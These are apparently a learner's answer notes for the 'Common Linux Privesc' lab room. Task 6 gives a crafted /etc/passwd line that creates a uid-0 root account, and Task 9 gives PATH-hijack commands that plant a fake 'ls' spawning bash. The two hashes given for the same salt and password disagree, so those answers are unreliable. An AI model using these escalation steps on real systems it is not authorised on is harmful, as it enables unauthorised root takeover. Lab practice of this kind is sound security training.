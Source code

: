 # Notes for the room "Common Linux Privesc"


## Tasks

### Task 4


What is the target's hostname?

```
polobox
```

Look at the output of /etc/passwd how many "user[x]" are there on the system?

```
8
```

How many available shells are there on the system?

```
4
```

What is the name of the bash script that is set to run every 5 minutes by cron?

```
autoscript.sh
```

What critical file has had its permissions changed to allow some users to write to it?


```
/etc/passwd
```

### Task 5

What is the path of the file in user3's directory that stands out to you?


```
/home/user3/shell
```

### Task 6

Having read the information above, what direction privilege escalation is this attack?

```
vertical
```

Before we add our new user, we first need to create a compliant password hash to add! We do this by using the command: `"openssl passwd -1 -salt [salt] [password]"`

What is the hash created by using this command with the salt, "new" and the password "123"?

```
$1$[new]$QVSf2wqMC/UUOoXEaxKxR0
```

Great! Now we need to take this value, and create a new root user account. What would the /etc/passwd entry look like for a root user with the username "new" and the password hash we created before?

```
new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash
```

### Task 7

Let's use the "sudo -l" command, what does this user require (or not require) to run vi as root?

```
NOPASSWD
```

### Task 8

What is the flag to specify a payload in msfvenom?

```
-p
```

What directory is the "autoscript.sh" under?

```
/home/user4/Desktop
```

### Task 9

Let's go to user5's home directory, and run the file "script". What command do we think that it's executing?

```
ls
```

What would the command look like to open a bash shell, writing to a file with the name of the executable we're imitating

```
echo "/bin/bash" > ls
```

Great! Now we've made our imitation, we need to make it an executable. What command do we execute to do this?

```
chmod +x ls
```



